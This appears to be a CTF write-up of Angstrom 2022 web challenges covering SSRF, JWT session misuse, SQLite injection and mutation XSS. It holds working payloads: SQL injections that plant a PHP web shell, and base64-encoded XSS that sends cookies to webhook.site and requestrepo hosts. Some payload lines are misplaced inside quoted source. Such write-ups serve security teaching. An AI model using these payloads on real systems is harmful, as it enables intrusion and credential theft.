







# Angstrom 2022 – Web Challenges

Note/Disclosure: Some of these challenges were done after the CTF and referencing of other people's solutions.

## Web Challenge: Xtra Salty Sardines

### Description/Source

### Solver

```python

```

## Web Challenge: School Unblocker

### Description/Source

```javascript
import express from "express";
import fetch from "node-fetch";
import path from "path";
import { fileURLToPath, URL } from "url";
import { resolve4 } from "dns/promises";

function isIpv4(str) {
  const chunks = str.split(".").map((x) => parseInt(x, 10));
  return (
    chunks.length === 4 && chunks.every((x) => !isNaN(x) && x >= 0 && x < 256)
  );
}

function isPublicIp(ip) {
  const chunks = ip.split(".").map((x) => parseInt(x, 10));
  if ([127, 0, 10, 192].includes(chunks[0])) {
    return false;
  }
  if (chunks[0] == 172 && chunks[1] >= 16 && chunks[1] < 32) {
    return false;
  }
  return true;
}

const __dirname = path.dirname(fileURLToPath(import.meta.url));

const app = express();
app.use(express.urlencoded({ extended: false }));

// environment config
const port = Number(process.env.PORT) || 8080;
const flag =
  process.env.FLAG ||
  "actf{someone_is_going_to_submit_this_out_of_desperation}";

app.get("/", (req, res) => {
  res.sendFile(path.join(__dirname, "index.html"));
});

app.post("/proxy", async (req, res) => {
  try {
    const url = new URL(req.body.url);
    const originalHost = url.host;
    if (!isIpv4(url.hostname)) {
      const ips = await resolve4(url.hostname);
      // no dns rebinding today >:)
      url.hostname = ips[0];
    }
    if (!isPublicIp(url.hostname)) {
      res.type("text/html").send("<p>private ip contents redacted</p>");
    } else {
      const abort = new AbortController();
      setTimeout(() => abort.abort(), 3000);
      const resp = await fetch(url.toString(), {
        method: "POST",
        body: "ping=pong",
        headers: {
          Host: originalHost,
          "Content-Type": "application/x-www-form-urlencoded",
        },
        signal: abort.signal,
      });
      res.type("text/html").send(await resp.text());
    }
  } catch (err) {
    res
      .status(400)
      .type("text/plain")
      .send("got error: " + err.message);
  }
});

// make flag accessible for local debugging purposes only
// also the nginx is at a private ip that isn't 127.0.0.1
// it's not that easy to get the flag :D
app.post("/flag", (req, res) => {
  if (!["127.0.0.1", "::ffff:127.0.0.1"].includes(req.socket.remoteAddress)) {
    res.status(400).type("text/plain").send("You don't get the flag!");
  } else {
    res.type("text/plain").send(flag);
  }
});

app.listen(port, () => {
  console.log(`Server listening on port ${port}`);
});
```

It's a basic proxy that does redirecting to any website. However the main flag lives on the endpoint `/flag` and must be accessed via the `127.0.0.1` loopback interface. The functions `isIpv4` and `isPublicIp` ensure that there is not spoofing of the url to have SSRF. However, all you need is either to setup a public proxy to redirect the server's request back to the endpoint. You can do this with a simple http server or just by using `tinyurl` or `httpbin` or `request.repo`



### Solver



### Flag

```
actf{dont_authenticate_via_ip_please}
```

## Web Challenge: Secure Vault

### Description/Source

We are given a website where we can register as users, and store things in a vault. Sessions are tracked by jwt and the corresponding message you save will be shown




```javascript
const express = require("express");
const path = require("path");
const fs = require("fs");
const jwt = require("jsonwebtoken");
const cookieParser = require("cookie-parser");

const app = express();
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

// environment config
const port = Number(process.env.PORT) || 8080;
const flag =
  process.env.FLAG ||
  "actf{someone_is_going_to_submit_this_out_of_desperation}";

const userInfo = {};
const jwtKey = Math.random().toString();

class UserStore {
  constructor() {
    this.users = {};
    this.usernames = {};
  }

  insert(username, password) {
    const uid = Math.random().toString();
    this.users[uid] = {
      username,
      uid,
      password,
      vault: "put something here!",
      restricted: true,
    };
    this.usernames[username] = uid;
    return uid;
  }

  get(uid) {
    return this.users[uid] ?? {};
  }

  lookup(username) {
    return this.usernames[username];
  }

  remove(uid) {
    const user = this.get(uid);
    delete this.usernames[user.username];
    delete this.users[uid];
  }
}

function escape(str) {
  return str
    .replaceAll("&", "&amp;")
    .replaceAll('"', "&quot;")
    .replaceAll("'", "&apos;")
    .replaceAll("<", "&lt;")
    .replaceAll(">", "&gt;");
}

const users = new UserStore();

app.use((req, res, next) => {
  try {
    res.locals.user = jwt.verify(req.cookies.token, jwtKey, {
      algorithms: ["HS256"],
    });
  } catch (err) {
    if (req.cookies.token) {
      res.clearCookie("token");
    }
  }
  next();
});

app.get("/", (req, res) => {
  res
    .type("text/html")
    .send(
      fs.readFileSync(
        path.join(__dirname, res.locals.user ? "authed.html" : "index.html"),
        "utf8"
      )
    );
});

app.post("/register", (req, res) => {
  if (
    !req.body.username ||
    !req.body.password ||
    req.body.username.length > 32 ||
    req.body.password.length > 32
  ) {
    res.redirect(
      "/?e=" + encodeURIComponent("Username and password must be 1-32 chars")
    );
    return;
  }
  if (users.lookup(req.body.username)) {
    res.redirect(
      "/?e=" +
        encodeURIComponent("Account already exists, please log in instead")
    );
    return;
  }
  const uid = users.insert(req.body.username, req.body.password);
  res.cookie("token", jwt.sign({ uid }, jwtKey, { algorithm: "HS256" }));
  res.redirect("/");
});

app.post("/login", (req, res) => {
  const user = users.get(users.lookup(req.body.username));
  if (user && user.password === req.body.password) {
    res.cookie(
      "token",
      jwt.sign({ uid: user.uid }, jwtKey, { algorithm: "HS256" })
    );
    res.redirect("/");
  } else {
    res.redirect("/?e=" + encodeURIComponent("Invalid username/password"));
  }
});

app.post("/delete", (req, res) => {
  if (res.locals.user) {
    users.remove(res.locals.user.uid);
  }
  res.clearCookie("token");
  res.redirect("/");
});

app.get("/vault", (req, res) => {
  if (!res.locals.user) {
    res.status(401).send("Log in first");
    return;
  }
  const user = users.get(res.locals.user.uid);
  res.type("text/plain").send(user.restricted ? user.vault : flag);
});

app.post("/vault", (req, res) => {
  if (!res.locals.user) {
    res.status(401).send("Log in first");
    return;
  }
  if (!req.body.vault || req.body.vault.length > 2000) {
    res.redirect("/?e=" + encodeURIComponent("Vault must be 1-2000 chars"));
    return;
  }
  users.get(res.locals.user.uid).vault = req.body.vault;
  res.redirect("/");
});

app.listen(port, () => {
  console.log(`Server listening on port ${port}`);
});
```

### Solver

I went through a lot of deadends trying to solve this problem

1. I thought you could crack the jwt. Since `Math.random()` is a poor pseudo-random number generator, given enough states (which I could do by requesting to create many users), you can predict the next possible `uid`. However that's of no use, because you can't back derive the state of the initial jwt key, and even if you did there was nothing that you could do with it.
2. I thought it was some kind of prototype pollution where you had to pollute the `restricted` property such that it would always evaluate to true, but there was no opportunity to do so.

This was the main vulnerable code. As long as `user.restricted` evaluated to a falsey value, the flag would be shown.

```javascript
const user = users.get(res.locals.user.uid);
res.type("text/plain").send(user.restricted ? user.vault : flag);
```

In the express middleware, we can see that the only time that an error would be thrown was if the jwt had an invalid signature. However, as long as we have a valid signature, even of a deleted user it would not throw an error but simply return a user of null, which is just what we need to give `user.restricted` a falsey value!

```javascript
app.use((req, res, next) => {
  try {
    res.locals.user = jwt.verify(req.cookies.token, jwtKey, {
      algorithms: ["HS256"],
    });
  } catch (err) {
    if (req.cookies.token) {
      res.clearCookie("token");
    }
  }
  next();
});
```

There wasn't even any code necessary to solve this, simply log in, save the cookie, delete your user, set your cookie then refresh and you get the flag lol.

### Flag



## Web Challenge: No Flags

### Description/Source

We are given a dockerfile and the source code

_index.php_ (mostly the impt parts)

```php
<?php
    if (!isset($_SESSION["DBNAME"])) {
        $dbname = hash("sha256", (string) rand());
        $_SESSION["DBNAME"] = $dbname;
        $init = true;
    } else {
        $dbname = $_SESSION["DBNAME"];
        $init = false;
    }
    $pdo = new PDO("sqlite:/tmp/$dbname.db");
    if ($init) {
        $pdo->exec("CREATE TABLE Flags (flag string); INSERT INTO Flags VALUES ('actf{not_the_flag}'), ('actf{maybe_the_flag}')");
    }
    if (isset($_POST["flag"])) {
        $flag = $_POST["flag"];
        $pdo->exec("INSERT INTO Flags VALUES ('$flag');");
            a'); ATTACH DATABASE '/var/www/html/abyss/bar.php' AS j;CREATE TABLE j.k (f text);--
            a'); ATTACH DATABASE '/var/www/html/abyss/bar.php' AS j;INSERT INTO j.k (f) VALUES ("<? system($_GET['cmd']);?>");--

    }
    foreach ($pdo->query("SELECT * FROM Flags") as $row) {
        echo "<li>" . htmlspecialchars($row["flag"]) . "</li>";
    }
?>
</ul>
<h2>Add a Fake Flag</h2>
<form action="/" method="POST">
    <input type="text" name="flag" placeholder="flag...">
    <input type="submit" value="Add">
</form>
```

_Dockerfile_

```bash
FROM php:8.1.5-apache-bullseye

# executable that prints the flag
COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html

RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80

```

The website was a SQlite instance running with PDO as an ORM showing a list of fake flags. This meant that payloads like `SELECT INTO x.php` wouldn't work as that is only valid for SQL not SQLite. There was an input that you could enter to add things to the database.



Random thing to note, that this was a v smart way to partition the diff users to ensure that exploits for one user don't leak over to others too easily.

```php
if (!isset($_SESSION["DBNAME"])) {
    $dbname = hash("sha256", (string) rand());
    $_SESSION["DBNAME"] = $dbname;
    $init = true;
} else {
    $dbname = $_SESSION["DBNAME"];
    $init = false;
}
$pdo = new PDO("sqlite:/tmp/$dbname.db");
```

### Solver

There was a sql injection here
`$pdo->exec("INSERT INTO Flags VALUES ('$flag');");`

In the dockerfile note that you have write access to /var/www/html/abyss/

```
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss
```

Note that the `ATTACH DATABASE` in PDO writes to a file so final payload

```
Payload 1:
a'); ATTACH DATABASE '/var/www/html/abyss/exploit.php' AS j;CREATE TABLE j.k (f text);--

Payload 2:
a'); ATTACH DATABASE '/var/www/html/abyss/exploit.php' AS j;INSERT INTO j.k (f) VALUES ("<? system($_GET['cmd']);?>");--

#technically everything could have been done in 1 payload, but it seems cleaner to me this way

```

Then visit /abyss/exploit.php?cmd=/printflag

### Flag

```
actf{why_do_people_still_use_php}
```


## Web Challenge: Cliche

### Description/Source

We are given a website to paste html/markdown and can send the link to the admin bot for XSS.




Both `marked` and `DOMPurify` are at their latest versions so no vuln there. The vulnerability was that the sanitization step was done before the parsing, so it was a kind of mutation XSS.

```javascript
<script>
    const qs = new URLSearchParams(location.search);
    if (qs.get("content")?.length > 0) {
        document.body.innerHTML = marked.parse(DOMPurify.sanitize(qs.get("content")));
    }
</script>
```

### Solver

Just a compilation of successful XSS from discord courtesy of

```
1. Strellic
// it stops parsing the tag after the newline
<a title="a

">yep</a>

2. maple3142
[x](y '<style>')<!--</style><div id="x-->"></div>

3. lebronli1986
[<p x='<style onload=eval(atob(/bG9jYXRpb249YGh0dHBzOi8vd2ViaG9vay5zaXRlL2FiM2IyYjg5LTg1YTktNGU0YS1hNjg0LTUxN2M1ZjQwNmZmMj9mPWArZW5jb2RlVVJJQ29tcG9uZW50KGRvY3VtZW50LmNvb2tpZSk/.source))>](#'></p>)

4. taidh
// Decode base64 and change to YOUR_VPS
// ?content=[payload bellow]
[<form id="<svg onload=eval(atob(location.hash.slice(1)))>](">)#ZmV0Y2goJ2h0dHBzOi8vejhmeGlqbjEucmVxdWVzdHJlcG8uY29tP2NjPScrZG9jdW1lbnQuY29va2llKQ==

5. fhantke
// the markdown inline code ` is prioritized over the HTML element and breaks it.
`<p x="`"></p>
```

## Web Challenge: Sustenance

### Description/Source

### Solver

```python

```
